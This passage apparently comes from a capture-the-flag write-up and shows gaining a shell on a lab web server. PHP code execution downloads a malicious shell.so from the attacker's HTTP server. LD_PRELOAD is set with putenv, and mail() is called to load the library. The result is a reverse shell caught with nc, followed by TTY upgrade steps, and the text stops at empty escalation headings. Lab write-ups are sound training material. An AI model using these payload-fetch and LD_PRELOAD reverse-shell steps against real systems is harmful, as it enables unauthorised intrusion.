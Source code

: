 ```jsx
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now, using the PHP code execution to download the library onto the target:

```jsx
$ python3 execute_code.py
code> $ch = curl_init('http://10.14.101.76/shell.so');curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);file_put_contents('/tmp/shell.so', curl_exec($ch)); curl_close($ch);
```

We can see the library being downloaded from our server:

```jsx
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.152.169 - - [27/Apr/2025 13:47:10] "GET /shell.so HTTP/1.1" 200 -
```

Now, setting the `LD_PRELOAD` environment variable with the `putenv` function to the library we uploaded, and calling the `mail` function to run the `sendmail` program, causing our library to be loaded and executed:

```jsx
code> putenv('LD_PRELOAD=/tmp/shell.so'); mail('a','a','a','a');
```

With this, we can see that our reverse shell payload is executed, and we get a shell as the `www-data` user inside a container:

```jsx
$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.14.101.76] from (UNKNOWN) [10.10.152.169] 46126
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bb28d5969dd5:/var/www/html$ script -qc /bin/bash /dev/null
www-data@bb28d5969dd5:/var/www/html$ ^Z

$ stty raw -echo; fg

www-data@bb28d5969dd5:/var/www/html$ export TERM=xterm
www-data@bb28d5969dd5:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),27(sudo)
```

![Screenshot From 2025-05-01 06-55-00.png](img9.png)

## Privilege Escalation

## User Flag

### Container Escape

